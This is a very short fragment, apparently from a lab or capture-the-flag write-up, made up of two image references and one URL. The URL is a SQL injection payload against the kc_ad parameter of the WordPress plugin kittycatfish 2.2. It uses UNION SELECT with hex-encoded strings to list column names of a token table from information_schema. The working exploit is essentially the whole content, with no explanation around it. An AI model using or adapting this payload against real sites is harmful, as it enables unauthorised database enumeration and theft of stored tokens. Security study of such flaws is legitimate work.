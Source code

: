 ![Alt text](./1512195065290.png)

```
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,(SELECT%20GROUP_CONCAT(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name=0x746c5f746f6b656e%20GROUP%20BY%20table_name%20LIMIT%200,1)
```
